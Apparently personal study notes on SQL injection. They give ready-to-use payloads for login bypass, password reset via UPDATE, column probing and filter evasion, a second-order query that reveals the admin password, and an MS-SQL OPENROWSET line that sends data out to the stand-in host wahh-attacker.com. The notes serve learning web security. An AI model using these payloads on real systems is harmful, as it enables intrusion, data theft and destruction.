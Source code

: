 # Injecting Code

## Into Interpreted Language
Attackers' input gets passed directly to the interpreter and runs as if it’s legit code.  
- Depends upon the language targeted.  
- Programming technique employed by the application developer.  
- Supplying unexpected syntax may cause read errors → check for indication of code injection vulnerability.  

## Injecting Into SQL
- Databases are used by almost all web applications to store data like user details, prices, account statements, etc.  
- By editing certain commands or statements and using vulnerable web parts, we can read, update, add, and delete data in the database.  

## Retrieving Hidden Data
Check if SQL injection is possible or not:  
- Try single quotation or double quotation as input.  
- Try `--` → observe the response.  
- Try `%` → if the server is interacting with the back-end database, submitting `%` may return some table or data.  
- Try `' OR 1=1--` → will bypass any true statement check, as `1=1` is always true.  
- Try supplying a mathematical expression that is equivalent to the original numerical value.  

**Useful notes:**  
- Use ASCII commands and quotes.  
- Remember:  
  - spaces ⇔ `+` or `%20`  
  - `+` ⇔ `%2b`  
  - `;` ⇔ `%3b`  

## Bypassing a Login
Every login page is connected to the backend most of the time, where it checks for username and password. If they match, it lets you log in.  

- We can bypass this login check if we know a username.  
- Example:  
```
SELECT * FROM USERS WHERE USERNAME = 'ADMIN'--' AND PASSWORD = 'FOO'
```
This is equivalent to:  
```
SELECT * FROM USERS WHERE USERNAME = 'ADMIN'
```
⇒ This way, the password check has been bypassed altogether.  

- If you don’t know a username, you can use:  
```
USERNAME = ' OR 1=1--
```
- Since `1=1` is always true, this can bypass the check.  

## Subverting Application Logic
- Example: username = `wiener` and password = `bluecheese`.  
- This can be bypassed using:  
  - If you have a username like `administrator`, try:  
    ```
    administrator'--
    ```
  - If you don’t have a username, then try:  
    ```
    username = admin
    password = ' OR 1=1--
    ```  

## Injecting into Different Statement Types
The most common types of SQL statements are:  

- **SELECT**  
- **INSERT**  
  - Use this for finding table column size and type, e.g.:  
    ```
    foo')--
    foo',1)--
    foo',1,1)--
    ```  
- **UPDATE**  
  - Example of bypassing password check and resetting the password:  
    ```
    update users set password='newsecret' where user='admin' or 1=1
    ```  
- **DELETE**  
- **The UNION operator**  
- **Fingerprinting the database**  
- **Extracting useful data**  

**Notes:**  
- If you don’t know the data type of columns in a table, you can always use:  
  ```
  SELECT NULL
  ```
- Use trial-and-error to find table names, column types, and column names.  

### Techniques
- If the `SELECT` statement is blocked or removed, try:  
  ```
  SeLeCt
  SELSELECTECT
  %53%54%4C%45%43%54
  ```
- In MySQL, comments can be inserted within keywords to bypass validation, for example:  
  ```
  SEL /*FOO*/ECT username,password FR/*foo*/OM users
  ```
- If the defense filter escapes or doubles up a single quotation mark, you can bypass it with escape quotations. Example:  
  ```
  aaaa'
  ```

## Second Order SQL Injection
- An attacker can register a username containing crafted input and then attempt to change their password.  
- Example:  
  ```
  'or 1 in (select password from users where username='admin')--
  ```
- When the attacker tries to change their password, the injected query will be executed → Revealing the admin password.  

**Note:** Not every attack is about stealing information — some just want to destroy your system/device.

## Using an out-of-band channel 

many time the webserver or browser dont let table to show or dont let the server to display stuff when any injection is done or taking place 
hence we think that the injection didn't worked or the website is not prone to sql injection 
but in reality everything is prone to injection its just not visibile to u 

so for that we will transfer the table or data to an out of band channel or network where we can see these data directly 

### MS-SQL

use OpenRowSet command can be used to open a connection to an external database and insert arbitary data into it 


`insert into openrowset(‘SQLOLEDB’,
‘DRIVER={SQL Server};SERVER=wahh-attacker.com,80;UID=sa;PWD=letmein’,
‘select * from foo’) values (@@version)`

note: u can specify port 80 or any port of your wish 


### Oracle 

use UTL_HTTP package can be used to make arbitrary HTTP requests to other hosts.




